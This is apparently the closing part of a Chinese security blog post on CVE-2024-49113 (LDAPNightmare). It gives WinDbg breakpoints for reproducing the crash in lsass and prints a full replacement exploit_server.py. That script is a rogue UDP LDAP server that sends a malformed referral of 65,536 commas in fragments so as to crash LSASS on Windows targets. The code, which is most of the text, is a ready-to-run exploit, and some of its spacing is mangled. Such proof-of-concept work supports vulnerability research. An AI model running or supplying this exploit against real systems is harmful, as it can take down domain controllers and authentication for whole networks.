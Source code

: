 附上windbg的打断点的命令方便大家复现：  
```
// 寻找lsass的EPROCESS!process 0 0 lsass.exe// 切换进程空间到lsass.process /i ffffd307f32c4080 ;g// 刷新kd维护的用户态加载模块列表使之匹配当前进程.reload /f /user// 设置断点bp /p @$proc netlogon!DsrGetDcNameEx2// 上面这个断下来之后再断下面的，不然断不到bp /p @$proc wldap32!LdapChaseReferral+0x21dd
```  
## 参考文章  
1. 1. [CVE-2024-49113 POC] - https://github.com/SafeBreach-Labs/CVE-2024-49113  
  
1. 2. [LDAPNightmare: SafeBreach Labs Publishes First Proof-of-Concept Exploit for CVE-2024-49113] - https://www.safebreach.com/blog/ldapnightmare-safebreach-labs-publishes-first-proof-of-concept-exploit-for-CVE-2024-49113/  
  
## 完整代码  
  
只需要替换掉SafeBreach的exploit_server.py，用法相同  
```
# exploit_server.pyimport asyncioimport loggingimport timefrom struct import pack# 配置日志logger = logging.getLogger(__name__)logging.basicConfig(level=logging.INFO)# 定义 LDAP 请求的常量LDAP_SUCCESS = 10LDAP_REFERRAL = 10LDAP_SEARCH_RESULT_DONE = 0x05# Search result done 操作类型LDAP_SEARCH_REQUEST = 99# Search 操作类型# 构建LDAP Search Result Done Referral响应defgenerate_ldap_search_result_done_referral_response(message_id: int, referrals: list):    defencode_length(length):        if length < 128:            returnbytes([length])        else:            length_bytes = length.to_bytes((length.bit_length() + 7) // 8, byteorder='big')            returnbytes([0x80 | len(length_bytes)]) + length_bytes    defencode_string(s):        s_bytes = s.encode('utf-8')        return encode_length(len(s_bytes)) + s_bytes    defencode_referrals(referrals):        referrals_bytes = b''        for referral in referrals:            referrals_bytes += b'\x04' + encode_string(referral)        return encode_length(len(referrals_bytes)) + referrals_bytes    # 正确编码结果代码，使用 ENUMERATED 标签 0x0A    result_code_bytes = b'\x0A' + encode_length(1) + b'\x0a'    # 匹配的 DN 为空    matched_dn = b'\x04\x00'    # 诊断消息为空    diagnostic_message = b'\x04\x00'    # 编码引用列表    referrals_encoded = encode_referrals(referrals)    # 构建搜索结果完成响应    search_result_done = result_code_bytes + matched_dn + diagnostic_message + b'\xa3' + referrals_encoded    # 构建协议操作，0x65 表示搜索结果完成    protocol_op = b'\x65' + encode_length(len(search_result_done)) + search_result_done    # 编码消息 ID    message_id_bytes = b'\x02\x01' + message_id.to_bytes(1, byteorder='big')    # 构建 LDAP 消息    ldap_message = b'\x30' + encode_length(        len(message_id_bytes) + len(protocol_op)    ) + message_id_bytes + protocol_op    return ldap_messageclassLdapServerProtocol(asyncio.DatagramProtocol):    def__init__(self):        super().__init__()        self.transport = None    defconnection_made(self, transport: asyncio.DatagramTransport) -> None:        self.transport = transport        logger.info("LDAP Server started, awaiting requests...")    defdatagram_received(self, data: bytes, addr) -> None:        try:            # 解析 LDAP 请求            message_id = data[8]            operation = data[9]            logger.info(f"Received LDAP request from {addr}, operation: {operation}")            if operation == LDAP_SEARCH_REQUEST:                # 处理 Search 请求                logger.info("Processing Search request...")                # Referral URL 列表                referrals = [                    'ldap://a/a?' + ',' * 0x10000                ]                # 生成带有 Referral 的 Search Result Done 响应                search_result_done_referral_response = generate_ldap_search_result_done_referral_response(                    message_id, referrals                )                # logger.info(search_result_done_referral_response)                # self.transport.sendto(search_result_done_referral_response, addr)                                packet_size = len(search_result_done_referral_response)                chunk_size = packet_size // 100                remainder = packet_size % 100                offset = 0                for i inrange(100):                    current_chunk_size = chunk_size + 1if i < remainder else chunk_size                    end = offset + current_chunk_size                    chunk = search_result_done_referral_response[offset:end]                    self.transport.sendto(chunk, addr)                    offset = end                                logger.info(f"Sent Search Result Done Referral response to {addr}")            else:                logger.error(f"Unsupported LDAP operation: {operation}")        except Exception as e:            logger.error(f"Error while processing datagram: {e}")    deferror_received(self, exc) -> None:        logger.error(f"Error received: {exc}")    defconnection_lost(self, exc) -> None:        logger.info(f"Connection lost: {exc}")# 启动服务器的函数asyncdefrun_exploit_server(listen_port: int):    loop = asyncio.get_running_loop()    transport, _ = await loop.create_datagram_endpoint(        lambda: LdapServerProtocol(),        local_addr=('0.0.0.0', listen_port)    )    try:        await asyncio.Future()  # Keep the server running    except KeyboardInterrupt:        pass    finally:        transport.close()        logger.info("Server has been shut down.")defstart_ldap_server(listen_port: int):    """Run the async LDAP server in this thread."""    asyncio.run(run_exploit_server(listen_port))if __name__ == "__main__":    start_ldap_server(8888)
```